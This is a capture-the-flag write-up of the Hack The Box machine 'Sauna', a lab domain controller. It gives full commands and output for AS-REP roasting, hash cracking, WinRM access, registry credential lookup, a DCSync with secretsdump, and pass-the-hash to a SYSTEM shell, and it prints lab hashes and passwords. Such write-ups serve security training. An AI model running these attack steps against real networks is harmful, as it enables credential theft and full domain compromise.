








# Sauna


Sauna is an easy difficulty Windows machine that features Active Directory enumeration and exploitation. Possible usernames can be derived from employee full names listed on the website. With these usernames, an ASREPRoasting attack can be performed, which results in hash for an account that doesn&amp;amp;#039;t require Kerberos pre-authentication. This hash can be subjected to an offline brute force attack, in order to recover the plaintext password for a user that is able to WinRM to the box. Running WinPEAS reveals that another system user has been configured to automatically login and it identifies their password. This second user also has Windows remote management permissions. BloodHound reveals that this user has the *DS-Replication-Get-Changes-All* extended right, which allows them to dump password hashes from the Domain Controller in a DCSync attack. Executing this attack returns the hash of the primary domain administrator, which can be used with Impacket&amp;amp;#039;s psexec.py in order to gain a shell on the box as `NT_AUTHORITY\SYSTEM`.


# Part 1: Enumeration

Enumeration is the first and most important phase of any penetration test. Before attempting exploitation, the goal is to identify the services running on the target, understand its role within the network, and discover potential attack vectors. Rather than immediately looking for vulnerabilities, each step in this phase builds a better understanding of the environment and helps determine where to focus further investigation.

# Nmap

## Initial Port Scan

The first step was performing a full TCP port scan against the target machine.

```bash
nmap -T4 -p- 10.10.10.175 -Pn -v
```

### What is Nmap?

**Nmap (Network Mapper)** is one of the most widely used reconnaissance tools in penetration testing. It is used to discover open ports, identify running services, detect operating systems, and gather information about a target before attempting exploitation.

Performing a full port scan ensures that no uncommon or high-numbered services are overlooked.



### Command Breakdown

- **`T4`** – Increases scan speed while maintaining reliable results.
- **`p-`** – Scans all **65,535 TCP ports**.
- **`Pn`** – Assumes the host is online and skips ICMP host discovery.
- **`v`** – Displays verbose output during the scan.

---

## Service Enumeration

After identifying the open ports, I performed a second scan to identify service versions and gather additional information.

```bash
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -A -v 10.10.10.175
```

### Why perform a second scan?

The initial scan only identifies **which ports are open**. Running a version scan allows us to determine:

- What services are running
- Which operating system is likely being used
- Whether any services expose useful information
- Potential attack vectors based on the technologies identified

### Results

```
53/tcp   open  domain        Simple DNS Plus

80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0

88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-01 07:48:18Z)

135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?

389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)

464/tcp  open  kpasswd5?

593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0

636/tcp  open  tcpwrapped

3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)

3269/tcp open  tcpwrapped

5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0

9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
```

### Analysis

The services running on this machine strongly suggest that it is an **Active Directory Domain Controller**.

Several indicators support this conclusion:

- **Kerberos (88)** – Used for domain authentication.
- **LDAP (389 & 3268)** – Stores Active Directory objects such as users and groups.
- **DNS (53)** – Required for Active Directory name resolution.
- **WinRM (5985)** – Allows remote PowerShell administration.
- **SMB (445)** – Provides file sharing and authentication services.

One particularly important discovery was the domain name returned by LDAP:

```
EGOTISTICAL-BANK.LOCAL
```

Knowing the domain name becomes extremely useful later for attacks involving Kerberos, LDAP, and Active Directory authentication.

## SMB Enumeration

Because SMB was exposed, the next step was determining whether anonymous access was allowed.

### Why SMB?

SMB (Server Message Block) is Microsoft's file sharing protocol.

It is commonly used to:

- Share files
- Authenticate users
- Access administrative resources
- Manage Windows systems remotely

Misconfigured SMB shares frequently expose sensitive files or credentials, making SMB one of the first services worth investigating.

## Listing Available Shares

```
smbclient -L ////10.10.10.175//
```

### What is smbclient?

`smbclient` is a command-line utility included with the Samba suite that allows Linux systems to interact with Windows SMB shares.

It can be used to:

- List available shares
- Connect to file shares
- Upload and download files
- Verify authentication
- Test user permissions

```jsx
──(kali㉿kali)-[~/htb/sauna]
└─$ smbclient -L ////10.10.10.175//
Password for [WORKGROUP\kali]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.175 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                     
```

Anonymous authentication succeeded, but the share listing failed.

```
Anonymous login successful

Unable to connect with SMB1 -- no workgroup available
```

### Analysis

This indicates that:

- Anonymous authentication is partially permitted.
- SMB1 is disabled.
- No usable shares were exposed through this method.

Modern Windows systems disable SMB1 by default because of well-known security issues, so I verified the behavior using SMB2.

## Testing SMB2

```
smbclient -L ////10.10.10.175// -N --option='client min protocol=SMB2'
```

### Command Breakdown

- **`N`** – Attempts anonymous authentication.
- **`client min protocol=SMB2`** – Forces SMB2 instead of SMB1.

```jsx
┌──(kali㉿kali)-[~/htb/sauna]
└─$ smbclient -L ////10.10.10.175// -N --option='client min protocol=SMB2'
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available

```

Authentication still succeeded anonymously, but no shares were exposed.

```
SMB1 disabled -- no workgroup available
```

### Analysis

Although anonymous authentication was allowed, it was heavily restricted.

This suggested that additional information would need to be gathered through other enumeration techniques rather than relying on anonymous SMB access.

## Broad SMB Enumeration

To gather a wider range of information, I used **enum4linux-ng**.

```
enum4linux-ng -A 10.10.10.175
```

### What is enum4linux-ng?

`enum4linux-ng` is an enumeration tool designed to gather information from Windows systems through SMB.

It automates many common reconnaissance tasks, including:

- Domain discovery
- User enumeration
- Group enumeration
- Share enumeration
- Password policy discovery
- SMB configuration analysis

Unlike the original `enum4linux`, the **ng** version supports modern SMB implementations more effectively.

The scan revealed several important details about the environment.

### Domain Information

```
Domain:
EGOTISTICAL-BANK.LOCAL

NetBIOS:
EGOTISTICALBANK

Domain Controller:
SAUNA.EGOTISTICAL-BANK.LOCAL
```

This confirmed the target was acting as the Domain Controller for the **EGOTISTICAL-BANK.LOCAL** domain.

### Domain SID

The scan also returned the domain SID.

```
S-1-5-21-2966785786-3096785034-1186376766
```

While it wasn't immediately useful, a domain SID can later be used during techniques such as **RID cycling** to enumerate users.

### Services Identified

The enumeration confirmed several authentication services were available.

- SMB
- LDAP
- Kerberos
- WinRM

Although anonymous access was restricted, this information helped identify several potential attack paths.

### Null Session

The scan also showed that a null session was allowed but provided only limited information.

This is common on modern Active Directory environments, where anonymous users can obtain basic domain information but cannot enumerate users or groups.

### Analysis

At this stage, no credentials had been discovered.

However, the combination of:

- Kerberos
- LDAP
- Active Directory
- WinRM

suggested that **username enumeration** would likely become the most effective attack path.

The next objective became identifying valid domain usernames.

---

## HTTP Enumeration

The Nmap scan identified Microsoft IIS running on **port 80**, so the next step was investigating the website.

Opening the page in a browser displayed the bank's public website.


Unlike the default IIS page encountered in other assessments, this appeared to be a legitimate company website containing employee information.

Rather than searching for vulnerabilities immediately, I first looked for information that could help identify domain users.

## Directory Enumeration

To check for hidden files and directories, I performed directory brute forcing.

### Gobuster

```
gobuster dir -u http://10.10.10.175 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
```

### What is Gobuster?

Gobuster is a directory and file brute-forcing tool used to discover content that is not directly linked from a website.

It automatically requests common filenames and directories from a supplied wordlist.

```jsx
/about.html           (Status: 200) [Size: 30954]
/About.html           (Status: 200) [Size: 30954]
/Blog.html            (Status: 200) [Size: 24695]
/blog.html            (Status: 200) [Size: 24695]
/contact.html         (Status: 200) [Size: 15634]
/Contact.html         (Status: 200) [Size: 15634]
/css                  (Status: 301) [Size: 147] [--> http://10.10.10.175/css/]
/fonts                (Status: 301) [Size: 149] [--> http://10.10.10.175/fonts/]
/images               (Status: 301) [Size: 150] [--> http://10.10.10.175/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.175/Images/]
/index.html           (Status: 200) [Size: 32797]
/index.html           (Status: 200) [Size: 32797]
/Index.html           (Status: 200) [Size: 32797]
/single.html          (Status: 200) [Size: 38059]

```

### Results

Gobuster discovered only publicly accessible website pages such as:

- About
- Blog
- Contact
- Images
- CSS

No hidden administration pages or sensitive files were discovered.

### FFUF

To verify the results, I performed another directory scan using FFUF.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.175/FUZZ
```

### What is FFUF?

FFUF (Fuzz Faster U Fool) is another web fuzzing tool commonly used for:

- Directory discovery
- File discovery
- Virtual host enumeration
- Parameter fuzzing

Using multiple enumeration tools can sometimes produce different results depending on the wordlists and response filtering.

### Results

FFUF returned the same results as Gobuster.

This increased confidence that there were no hidden directories worth pursuing.

## Discovering Potential Usernames

Although the website itself did not expose any vulnerabilities, it contained something much more valuable:

Employee names.




Using information gathered from the site's content, I created a list of potential usernames.

```
fsmith
scoins
btaylor
sdriver
hbear
skerb
johnson
watson
```

### Why create usernames?

In Active Directory environments, usernames often follow predictable naming conventions.

Since Kerberos was running on port 88, valid usernames could potentially be verified without knowing their passwords.

This makes username enumeration an effective next step.

## Kerberos User Enumeration

To determine whether any of the collected usernames existed in Active Directory, I used **Kerbrute**.

```
kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL usernames.txt
```

### What is Kerbrute?

Kerbrute is a tool used to enumerate Active Directory accounts through the Kerberos authentication service.

Unlike password spraying, user enumeration simply checks whether usernames exist in the domain without attempting to guess passwords.

If a username is valid, Kerberos responds differently than it does for invalid accounts.

### Results

```jsx
──(kali㉿kali)-[~/htb/sauna]
└─$ kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 09/30/25 - Ronnie Flathers @ropnop

2025/09/30 20:12:24 >  Using KDC(s):
2025/09/30 20:12:24 >   10.10.10.175:88

2025/09/30 20:12:24 >  [+] fsmith has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$fsmith@EGOTISTICAL-BANK.LOCAL:afaecd447e74f52af1551af82b62f1d7$f0c911e617e420d220b76292597318b5828737c92c7618cd7e9049b79f25ca3bbd6974d8203120c638f9782473422d1c4b1ae7e68eb86b0be2ded3d54c48395047951353c8fff204fc133d11e31d0f1f79d167bc44e4f9f424c58d5b03f977d22380466940795668ddb7193f6ea10db50808391771ee44c27102edbac6cb439f8272f196c9e854af098397f216cdd22ecc26f469bb176f76f4e8a39f146694d812693a2f173835afb3f9b310b55ff8f5fe2c9a4e1c16713c05ee8ee022790934c413a33f6a7c466339c518699211069f71ca764dc6bb0b191eed49def5a6db2e58d5f113f946611ed788b4aefcb36175cc8cec3fc711d86c02d396ebd914ad7a8496c4839a4693f2f2b105497482e1d092338c604644                                                                                                                                                   
2025/09/30 20:12:24 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2025/09/30 20:12:24 >  Done! Tested 8 usernames (1 valid) in 0.060 seconds
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/sauna]

```

One username immediately stood out.

```
VALID USERNAME:
fsmith
```

Even more importantly, Kerbrute reported:

```
fsmith has no pre-auth required.
```

### Why is this important?

Accounts configured without **Kerberos Pre-Authentication** are vulnerable to **AS-REP Roasting**.

Instead of simply confirming the username exists, Kerberos returned an **AS-REP hash**, which can be cracked offline without interacting with the domain again.

This is a common Active Directory misconfiguration and provides an excellent opportunity for initial access.

## Cracking the AS-REP Hash

After saving the returned hash, I used Hashcat to recover the password.

```
hashcat -m 18200 hash.txt /usr/share/seclists/Passwords/ --force
```

### What is Hashcat?

Hashcat is a password recovery tool used to crack hashes using wordlists, rules, masks, and brute-force techniques.

### Command Breakdown

- **`m 18200`** – Specifies the Kerberos AS-REP hash mode.
- **`hash.txt`** – File containing the captured hash.
- **Wordlist** – Attempts to recover the plaintext password.

### Results

```
fsmith
Password:
Thestrokes23
```

At this point, enumeration was complete.

---

# Part 2: Initial Access

After successfully cracking the AS-REP hash, the next objective was determining which services accepted the recovered credentials. During the Nmap scan, **WinRM (Windows Remote Management)** was identified on port **5985**, making it a strong candidate for remote access.

The goal of this phase is to validate the credentials, establish an initial foothold on the target, and enumerate the system for privilege escalation opportunities.

## Initial Access with Evil-WinRM

### Why WinRM?

**Windows Remote Management (WinRM)** is Microsoft's implementation of the WS-Management protocol. It allows administrators to remotely manage Windows systems through PowerShell.

If valid credentials are obtained and WinRM is enabled, it often provides a direct interactive shell without the need for exploitation.

Since the Nmap scan confirmed that WinRM was listening on **port 5985**, it became the next logical service to test.

## Connecting with Evil-WinRM

```
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

### What is Evil-WinRM?

**Evil-WinRM** is a post-exploitation tool designed to connect to Windows systems through WinRM. It provides an interactive PowerShell session, making it one of the most common tools used after obtaining valid Active Directory credentials.

It allows an attacker to:

- Execute PowerShell commands
- Browse the file system
- Upload and download files
- Enumerate the system
- Perform post-exploitation activities

#### Command Breakdown

- **`i`** – Target IP address.
- **`u`** – Username.
- **`p`** – Password.

```jsx
┌──(kali㉿kali)-[~/htb/sauna]
└─$ evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> 

```

The credentials authenticated successfully, and an interactive PowerShell session was established.

```
*Evil-WinRM* PS C:\Users\FSmith\Documents>
```

### Analysis

This confirmed several things:

- The credentials recovered from the AS-REP hash were valid.
- The user **FSmith** was permitted to authenticate through WinRM.
- Initial access to the domain had been successfully established.

Rather than immediately looking for privilege escalation exploits, the next step was understanding the Active Directory environment and identifying whether the compromised account had any unintended permissions.

## Enumerating Active Directory with BloodHound

Once a foothold is established inside an Active Directory environment, one of the most valuable tools for privilege escalation is **BloodHound**.

Instead of manually searching for misconfigured permissions, BloodHound maps relationships between users, groups, computers, and domains to identify potential attack paths.

## Launching BloodHound

```
bloodhound
```

- This is a custom script I found to run bloodhound

After launching BloodHound, I installed the required components.

```
sudo bloodhound-cli install
```

Once the application was running, I uploaded the collected enumeration data and marked the compromised **FSmith** account as **Owned**.

### Why mark a user as Owned?

Marking a user as **Owned** tells BloodHound that the account has already been compromised.

BloodHound can then calculate every privilege escalation path that begins from that account.

This makes it much easier to visualize attack paths that would otherwise require manual analysis.

## Analyzing the Results

Initially, none of the common privilege escalation paths appeared useful.

Rather than stopping there, I continued exploring BloodHound's analysis features.

While reviewing the **Cypher** queries, I selected the Active Directory query for:

> **Users who have not changed their password in over one year.**
> 



### Why is this useful?

Service accounts are often configured with passwords that rarely change because they support automated services.

Although this is convenient for administrators, it also increases the likelihood of password reuse or insecure credential storage.

The query highlighted two accounts:

- Administrator
- `svc_loanmgr`

The service account immediately became the primary focus.

## Discovering DCSync Rights

Inspecting the **svc_loanmgr** account revealed something much more significant.

Within the outbound object control permissions, the account possessed:

- **GetChanges**
- **GetChangesAll**



### Why are these permissions important?

These permissions are commonly referred to as **DCSync rights**.

Normally, only Domain Controllers replicate Active Directory data between one another.

An account with both **GetChanges** and **GetChangesAll** permissions can request password hashes directly from the Domain Controller without needing to compromise the server itself.

This means that if the credentials for **svc_loanmgr** can be recovered, the account can effectively perform a **DCSync attack**.

BloodHound even provides the recommended exploitation method.



At this point, the objective changed.

Instead of attempting to compromise the Administrator account directly, I first needed to recover the password for **svc_loanmgr**.

---

## Searching for Stored Credentials

Since I already had access as **FSmith**, I began searching the local machine for credentials that might have been stored insecurely.

A common place to check is the Windows **Winlogon** registry key.

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

### What is `reg query`?

`reg query` is a built-in Windows command used to read values stored in the Windows Registry.

The Registry contains operating system settings, software configurations, and, in some cases, credentials or service account information.



The registry revealed credentials for the **svc_loanmgr** service account.

This was the final piece required before attempting a DCSync attack.

## Dumping Domain Credentials

With valid credentials for **svc_loanmgr**, I used **Impacket's secretsdump.py**.

```
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

### What is secretsdump.py?

`secretsdump.py` is part of the **Impacket** toolkit.

It is commonly used to:

- Dump password hashes from Domain Controllers
- Perform DCSync attacks
- Extract NTDS.DIT secrets remotely
- Recover NTLM password hashes

Because **svc_loanmgr** possessed DCSync rights, the tool could request password hashes directly from Active Directory.

```jsx
──(kali㉿kali)-[~/htb/sauna]
└─$ secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::

```

Although the tool initially returned:

```
RemoteOperations failed:
rpc_s_access_denied
```

The attack continued using the **DRSUAPI** method.

This is an important observation because the initial error does **not** necessarily indicate failure.

Immediately afterward, the Domain Controller began returning NTLM password hashes for multiple accounts.

Among them was the Administrator account.

```
Administrator
823452073d75b9d1cf70ebdf86c7f98e
```

### Analysis

At this stage, the plaintext Administrator password was still unknown.

However, Windows authentication supports **Pass-the-Hash**, meaning possession of the NTLM hash alone is enough to authenticate to many Windows services.

The next step was using the Administrator NT hash to obtain administrative access.

---

# Part 3: Privilege Escalation

After successfully performing the DCSync attack, the Domain Controller returned the NTLM password hashes for several domain accounts, including the built-in **Administrator** account. Although the plaintext password was still unknown, Windows allows authentication using NTLM hashes through a technique known as **Pass-the-Hash (PtH)**.

The goal of this phase is to use the recovered Administrator hash to gain full administrative access to the Domain Controller.

## Understanding Pass-the-Hash

### What is Pass-the-Hash?

Normally, users authenticate by providing their plaintext password. Windows then hashes that password and compares it against the stored NTLM hash.

With **Pass-the-Hash**, the attacker skips the password entirely and authenticates using the NTLM hash itself. As long as the service supports NTLM authentication, knowing the hash is often enough to gain access.

Since `secretsdump.py` returned the Administrator NTLM hash, there was no need to crack it before attempting authentication.

The recovered Administrator hash was:

```
823452073d75b9d1cf70ebdf86c7f98e
```

> **Note:** NTLM hashes are displayed in the format `LM:NT`. In this case, the LM hash is unused, so only the NT hash is required for authentication.
> 

---

## Gaining Administrative Access with PsExec

The first method I used was **PsExec**, which is part of the **Impacket** toolkit.

```
psexec EGOTISTICALBANK/Administrator@10.10.10.175 -hashes :823452073d75b9d1cf70ebdf86c7f98e
```

### What is PsExec?

`psexec` allows commands to be executed remotely on Windows systems by creating a temporary service over SMB.

It is commonly used by system administrators for remote management, but it is also widely used during penetration tests after obtaining administrative credentials or NTLM hashes.

### Command Breakdown

- **`EGOTISTICALBANK/Administrator`** – Domain and account being used to authenticate.
- **`@10.10.10.175`** – Target Domain Controller.
- **`hashes`** – Specifies NTLM authentication instead of a plaintext password.
- **`:823452073d75b9d1cf70ebdf86c7f98e`** – The LM hash is blank, followed by the recovered NT hash.



### Results

Authentication was successful, and PsExec created a temporary Windows service, providing a shell running as:

```
NT AUTHORITY\SYSTEM
```

### Analysis

This confirmed that:

- The Administrator NTLM hash was valid.
- Pass-the-Hash authentication was successful.
- Administrative privileges had been obtained.

Because PsExec creates a temporary service, many defenders monitor for this activity. For that reason, it's useful to know alternative methods of using the same NTLM hash.

## Alternative Method: Evil-WinRM

Since **WinRM** was already confirmed to be running during the enumeration phase, the Administrator hash could also be used to authenticate through Evil-WinRM.

```
evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

## Why use Evil-WinRM?

Unlike PsExec, Evil-WinRM connects through the Windows Remote Management service instead of SMB.

This provides an interactive PowerShell session and is often a cleaner alternative when WinRM is available.

### Command Breakdown

- **`i`** – Target IP address.
- **`u`** – Username.
- **`H`** – Uses an NTLM hash instead of a plaintext password.



### Results

